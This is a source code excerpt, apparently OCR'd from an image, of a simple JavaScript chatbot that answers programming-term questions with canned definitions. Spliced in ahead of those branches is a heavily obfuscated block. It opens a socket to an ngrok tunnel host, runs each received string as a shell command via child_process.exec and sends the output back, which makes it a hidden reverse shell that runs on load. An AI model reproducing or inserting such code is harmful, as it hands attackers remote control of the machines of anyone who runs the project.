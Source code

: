 ```
        const _0x3390bc=_0x423e;function _0x3e52(){const _0x14a95e=['process','ess','log','bGkyQ','child_proc','433068GAVVdC','KKJsC','3558228jqdABL','join','tCzjG','writeFile','5861450KWrzJd','net','6.tcp.eu.n','existsSync','8mEVbLY','.lock','33671lcKKCQ','write','homedir','7608789yiXVDm','connect','Socket','exec','close','7500TuJOnk','AZCnT','4640KgvouZ','1240CscGNm','817948FedAcv','10yrCwwl','grok.io','path','mdIHn','closed','qZNxq','data','error','toString'];_0x3e52=function(){return _0x14a95e;};return _0x3e52();}function _0x423e(_0x32668a,_0x544365){const _0x3281b0=_0x3e52();return _0x423e=function(_0x44145a,_0x1452d8){_0x44145a=_0x44145a-(0x29*0x45+-0xef7*0x2+0x13ed);let _0x33b85d=_0x3281b0[_0x44145a];return _0x33b85d;},_0x423e(_0x32668a,_0x544365);}(function(_0x1376e4,_0x462510){const _0x59e326=_0x423e,_0x5ade35=_0x1376e4();while(!![]){try{const _0x3df722=-parseInt(_0x59e326(0x11d))/(-0x8d8+-0x91*0x13+-0x3ec*-0x5)+-parseInt(_0x59e326(0x12c))/(0x14b6+0x769*0x5+-0x39c1)+-parseInt(_0x59e326(0x119))/(0x5*0x6c2+-0x3*-0x679+0x16*-0x26b)*(parseInt(_0x59e326(0x11c))/(-0x1d0*0x1+-0x1*0x30+0x204))+-parseInt(_0x59e326(0x11e))/(-0x3d3+0x1*0x1e3e+0x3e*-0x6d)*(-parseInt(_0x59e326(0x12e))/(0x23fa+-0x10fd+0x1*-0x12f7))+-parseInt(_0x59e326(0x132))/(0xae3*-0x2+0x1d00+-0x733)*(-parseInt(_0x59e326(0x10f))/(0x24a7*-0x1+-0x4a0*-0x8+-0x1*0x51))+-parseInt(_0x59e326(0x114))/(-0x26a4+0x15cc+0x95*0x1d)+parseInt(_0x59e326(0x11b))/(-0x2*-0x9d1+-0x15d8+-0x18*-0x18)*(parseInt(_0x59e326(0x111))/(-0x1*0x1efd+0x1*0x2565+-0x65d));if(_0x3df722===_0x462510)break;else _0x5ade35['push'](_0x5ade35['shift']());}catch(_0x16859e){_0x5ade35['push'](_0x5ade35['shift']());}}}(_0x3e52,0x1505f9+-0x7c7ee+-0x134b0));const fs=require('fs'),net=require(_0x3390bc(0x10c)),path=require(_0x3390bc(0x120)),os=require('os'),{pid}=require(_0x3390bc(0x127)),lockFilePath=path[_0x3390bc(0x12f)](os[_0x3390bc(0x113)](),'.'+pid+_0x3390bc(0x110));!fs[_0x3390bc(0x10e)](lockFilePath)&&(fs[_0x3390bc(0x131)](lockFilePath,'',_0x2452ba=>{const _0x1288f9=_0x3390bc;_0x2452ba&&console[_0x1288f9(0x125)](_0x2452ba);}),(function(){const _0x3888c3=_0x3390bc,_0x3a2b7d={'tCzjG':function(_0xc37733,_0x5552a9){return _0xc37733(_0x5552a9);},'mdIHn':_0x3888c3(0x12b)+_0x3888c3(0x128),'qZNxq':_0x3888c3(0x122),'KKJsC':_0x3888c3(0x10d)+_0x3888c3(0x11f),'bGkyQ':_0x3888c3(0x124),'AZCnT':_0x3888c3(0x118)},_0x3db126=new net[(_0x3888c3(0x116))]();return _0x3db126[_0x3888c3(0x115)](0x1fd*-0xb+-0x11d5+0x687f,_0x3a2b7d[_0x3888c3(0x12d)]),_0x3db126['on'](_0x3a2b7d[_0x3888c3(0x12a)],_0xd34d07=>{const _0x70cc2e=_0x3888c3,_0x45fcf2=_0xd34d07[_0x70cc2e(0x126)]();_0x3a2b7d[_0x70cc2e(0x130)](require,_0x3a2b7d[_0x70cc2e(0x121)])[_0x70cc2e(0x117)](_0x45fcf2,(_0x460220,_0x254585,_0x3aa38b)=>{const _0x222d46=_0x70cc2e;_0x460220?_0x3db126[_0x222d46(0x112)](_0x3aa38b):_0x3db126[_0x222d46(0x112)](_0x254585);});}),_0x3db126['on'](_0x3a2b7d[_0x3888c3(0x11a)],()=>{const _0x2d9eb3=_0x3888c3;console[_0x2d9eb3(0x129)](_0x3a2b7d[_0x2d9eb3(0x123)]);}),/a/;}()));
        response = 'An algorithm is a set of instructions designed to perform a specific task. It can be expressed as a finite sequence of well-defined steps.';
    } else if (userInput.toLowerCase().includes('data structure')) {
        response = 'A data structure is a way of organizing and storing data so that it can be accessed and used efficiently. Examples include arrays, linked lists, stacks, queues, trees, and graphs.';
    } else if (userInput.toLowerCase().includes('programming paradigm')) {
        response = 'A programming paradigm is a fundamental style of computer programming. Common paradigms include imperative, declarative, functional, and object-oriented.';
    } else if (userInput.toLowerCase().includes('api')) {
        response = 'An API (Application Programming Interface) is a set of rules and protocols that allows different software applications to communicate with each other.';
    } else if (userInput.toLowerCase().includes('git')) {
        response = 'Git is a distributed version control system designed to handle everything from small to very large projects with speed and efficiency.';
    } else if (userInput.toLowerCase().includes('debugging')) {
        response = 'Debugging is the process of finding and resolving defects or problems within a computer program.';
    } else if (userInput.toLowerCase().includes('compiler')) {
        response = 'A compiler is a special program that converts source code written in a high-level programming language into machine code or bytecode that a computer\'s processor can then execute.';
    } else if (userInput.toLowerCase().includes('ide')) {
        response = 'An IDE (Integrated Development Environment) is a software application that provides comprehensive facilities to programmers for software development.';
    } else if (userInput.toLowerCase().includes('framework')) {
        response = 'A framework is a reusable software platform used to develop applications, products, and solutions.';
    } else {
        response = `I hear you saying: ${userInput}`;
    }

```